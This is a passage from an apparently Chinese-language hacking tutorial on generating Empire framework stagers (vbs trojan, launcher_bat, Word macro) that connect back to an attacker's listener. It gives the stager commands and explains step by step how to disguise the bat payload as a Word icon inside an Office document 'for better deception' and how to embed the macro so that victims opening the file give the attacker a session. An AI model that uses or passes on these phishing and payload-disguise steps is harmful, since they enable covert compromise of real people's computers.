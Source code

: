 ![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKxk7YHVVnVwfQAS9Hn6tvaMHaaVwxR9h7eS1KF7pL5yaKFQoVicQBiaQg/640?wx_fmt=png)

当在目标机器上执行 vbs 木马，即可获得 session，

当然也可以在配置好参数后返回 listener 通过 launcher powershell micr067 生成 base 64 代码运行

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKbtbTdylg4nZPf05wBQ9OJuuEUN9K6kpibUG5TrgqBPfs5o6qe7zu84A/640?wx_fmt=png)

（4） launcher_bat

usestager windows/launcher_bat

set Listener micr067

execute

在目标主机上运行生成的 launcher.bat，成功获得一个新的 session

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKadnPz3YLicIzBGHp7ediamPpknrBYia18upLiahGHcuIafxa3JtOzkns0A/640?wx_fmt=png)

为了增加迷惑性，可以将 bat 文件插入一个 office 文件（word/excel）中，依次选择插入—对象—选择 “由文件创建”—通过浏览“选定 bat 文件”—勾选“显示为图标”—“更改图标” 从而获得更好的迷惑性，

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK4NJlnhE6wnficfRXeweNesd3ZyA3r2Nd8CnKic8ic7bzmUX5DE3gkFIDA/640?wx_fmt=png)

将图标更改为 word 图标，更改文件显示名，可以获得更好的迷惑性，此处没 word 图标就凑活着用吧！

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK24JOytxr9ePGSzRicAAH4JwLSGcHJlFuxTYZQRibsYC0285cnSrkOPng/640?wx_fmt=png)

额，要是改为 word 图标简直完美。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKg1YqicsMyiceNqxzk1Cp3mbPfCkvKsPYcFF5KFBJrtgRmrL9PH53XZJw/640?wx_fmt=png)

当目标机器用户点击了 word 中的附件，即可触发运行 bat，kali 成功又获得一个新 session

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKEjtKibLymUBarCXtKxyBZMUZnt9miaqJKVA4aGEA1wdfNvicic8Hh89AOQ/640?wx_fmt=png)

（5）Macro 木马

usestager windows/macro

set Listener micr067

execute

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKWBlX3Lngc3jEZqCNZDGextEFyTTOU9waTc2nuAhuQA2GQojVibvVxlQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKBB27ia9JvugyaXHB2L380mZiaqHETMCy0PCawBumYo9vhvTYIu27NhBA/640?wx_fmt=png)

将生成的宏文件添加到 office 文件中，打开 word 文档，点击 “试图”，选择“宏”，“宏名” 随便起，宏位置选择当前 office 文件，单击 “创建” 会弹出 VB 编辑界面。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIKbA2M5GVX7gLM25PrAic0QWUMA3RJicnykyYGcTHsc706Dd2c2FPEfLug/640?wx_fmt=png)

将原来的代码删除，将 macro 宏文件代码复制粘贴到其中，另存为 “word 97-2003 文档”

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkr436iavLBrcYKcoXSOYjEIK9ENXHK5o1iaj79ZrvibaThg1owN0WsLnGibYx2QHFrxIj5zlHd9d8gEVQ/640?wx_fmt=png)
